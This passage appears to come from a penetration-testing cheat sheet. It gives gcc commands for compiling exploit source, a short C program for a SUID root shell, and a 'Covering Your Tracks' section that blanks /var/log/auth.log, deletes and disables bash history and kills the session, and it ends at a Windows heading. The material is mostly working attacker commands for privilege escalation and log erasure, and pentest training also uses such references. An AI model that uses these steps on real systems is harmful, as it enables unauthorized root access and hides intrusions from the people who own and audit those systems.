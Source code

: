* Compile a 32-bit executable
``` sh
gcc -m32 exploit-src.c -o exploit
```

* Compile a static executable
``` sh
# do the compilation; include -static-libstdc++ for C++ programs
gcc -static -static-libgcc exploit-src.c -o exploit

# ensure no dynamic linkage
ldd <exename>

# ensure no unresolved symbols; it's okay if this contains some kernel-space symbols
nm <exename> | grep " U "
```

* Simple SUID shell for ``/bin/bash``; works for ``/bin/sh``, too
``` c
int main(void)
{
  setresuid(0, 0, 0);
  system("/bin/bash");
}
```


## Linux Covering Your Tracks

* Clear history logs
``` sh
echo "" > /var/log/auth.log
echo "" > ~/.bash_history
rm ~/.bash_history -rf
history -c
```

* Disable history logging; requires logout to take effect
``` sh
export HISTFILESIZE=0
export HISTSIZE=0
unset HISTFILE
```

* Permanently send all bash history commands to `/dev/null`
``` sh
ln /dev/null ~/.bash_history -sf
```

* `kill` the current session
``` sh
kill -9 $$
```


## Windows Local Information Gathering
